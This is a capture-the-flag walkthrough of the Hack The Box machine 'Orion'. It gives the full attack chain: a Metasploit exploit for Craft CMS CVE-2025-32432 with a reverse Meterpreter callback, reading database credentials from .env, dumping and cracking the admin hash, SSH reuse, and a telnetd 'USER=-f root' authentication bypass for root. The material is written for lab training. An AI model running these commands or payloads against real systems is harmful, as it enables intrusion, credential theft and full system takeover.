# Orion — Write-Up

| Field | Details |
|---|---|
| **Machine** | [Orion](https://app.hackthebox.com/machines/Orion) |
| **Platform** | [Hack The Box](https://hackthebox.com/) |
| **Operating System** | Linux (Ubuntu 22.04.5 LTS) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

A full Nmap scan is run against the target:

```bash
nmap -p- -sCV -T5 10.129.60.253 -oN Orion
```



Services found:

| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 |
| 80/tcp | HTTP | nginx 1.18.0 (Ubuntu) |

Nmap notes that the HTTP service does not follow the redirect to `http://orion.htb/`, indicating name-based virtual hosting.

### Hosts File

The hostname `orion.htb` is added to `/etc/hosts` pointing to the target IP:



---

## Web Enumeration

### Landing Page

Browsing to `http://orion.htb/` reveals a corporate landing page for **"Orion Telecom"**, a fictional telecommunications company:



Scrolling to the footer discloses the underlying technology stack:


```
© 2026 Orion Telecom
Powered by CraftCMS
```

### Directory Fuzzing

`ffuf` is used to discover hidden paths:

```bash
ffuf -u http://orion.htb/FUZZ -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Relevant paths found: `index`, `assets` (`301`), `admin` (`302`), `logout` (`302`).

### Admin Panel

Browsing to `/admin/login` confirms the **Craft CMS** administration panel, along with the exact version in use:



```
Orion Telecom Administration
Craft CMS 5.6.16
```

---

## Exploitation — Craft CMS Pre-Auth RCE (CVE-2025-32432)

### Vulnerability Research

A search for known vulnerabilities affecting this specific version turns up a public PoC:



**CVE-2025-32432** affects **Craft CMS ≤ 5.6.16** and allows unauthenticated remote code execution by chaining an image-transform parameter injection with a Yii2 `PhpManager` deserialization gadget, combined with **nginx access-log poisoning** to smuggle a malicious PHP payload onto disk.

### Exploitation with Metasploit

Rather than reproducing the manual chain, the ready-made Metasploit module is used:

```bash
msfconsole
search CVE-2025-32432
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```



The module options are configured and the exploit is launched:

```
set rhosts orion.htb
set rport 80
set lhost 10.10.14.70
exploit
```



The target is confirmed vulnerable, the payload is injected via log poisoning and triggered, and a **Meterpreter session** is opened as `www-data`.

---

## Post-Exploitation — Credential Harvesting

### Reading the `.env` File

From the web shell, the application root is inspected. Craft CMS applications typically store sensitive configuration in a `.env` file:

```bash
cd ..
ls -la
cat .env
```



The file discloses working **MySQL credentials**:

```
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
```

### Database Enumeration

The leaked credentials are used to connect directly to the local MySQL instance and enumerate the `orion` database:

```bash
mysql -u root -p'SuperSecureCraft123Pass!' -D orion -e 'SHOW TABLES;'
```



The `users` table is dumped:

```bash
mysql -u root -p'SuperSecureCraft123Pass!' -D orion -e 'select * from users;'
```



This reveals the administrator account:

| Field | Value |
|---|---|
| **username** | `admin` |
| **email** | `adam@orion.htb` |
| **password (bcrypt hash)** | `$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxob0OGMbXo8NHp3P/B42LUg0lS` |

### Cracking the Hash

The hash is saved locally and cracked offline with `hashcat`, using mode `3200` (bcrypt):

```bash
hashcat -m 3200 hash.txt --show
```



The recovered password is **`darkangel`**.

---

## Initial Access

### SSH as adam

The recovered credentials belong to the system account `adam` (the email `adam@orion.htb` mirrors it) and are reused to log in via SSH:

```bash
ssh adam@orion.htb
```



Access is confirmed on **Ubuntu 22.04.5 LTS**, and the `user.txt` flag is read from the home directory.

---

## Privilege Escalation — Telnet Authentication Bypass (CVE-2026-24061)

### Enumerating Local Services

Listening ports are checked from the `adam` shell:

```bash
ss -tulnp
```



A **Telnet** service is found listening on `127.0.0.1:23` — inaccessible from the outside, but reachable locally. Its version is checked:

```bash
telnet --version
```

```
telnet (GNU inetutils) 2.7
```

### Vulnerability Research

A search reveals that **GNU inetutils telnetd ≤ 2.7** is affected by **CVE-2026-24061**, an authentication bypass via **Telnet `NEW-ENVIRON` option injection**. By injecting an environment variable `USER=-f root` during telnet option negotiation, the vulnerable `telnetd` passes it unsanitized to `login`, which interprets `-f root` as an instruction to log in as `root` **without a password**:



```
login -f root
```

### Exploitation

The bypass is triggered locally against the loopback Telnet service by setting the `USER` environment variable before invoking the client:

```bash
USER="-f root" telnet -a 127.0.0.1
```



The client connects, negotiates the poisoned `NEW-ENVIRON` variable, and `telnetd` drops the session directly into an **interactive root shell** — no password required:

```
root@orion:~# cat root.txt
```

The root flag is read, completing the box.

---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port scan | `nmap` |
| Web enumeration | Directory fuzzing + technology fingerprinting | `ffuf` |
| Vulnerability research | Public CVE lookup for Craft CMS 5.6.16 | Google, GitHub |
| Exploitation | Unauthenticated RCE — Craft CMS (CVE-2025-32432) | Metasploit |
| Post-exploitation | Credential harvesting from `.env` | `cat`, `mysql` |
| Credential access | Database dump + offline hash cracking | `mysql`, `hashcat` |
| Initial access | SSH with cracked credentials | `ssh` |
| Privilege escalation | Telnet `NEW-ENVIRON` auth bypass (CVE-2026-24061) | `telnet` |
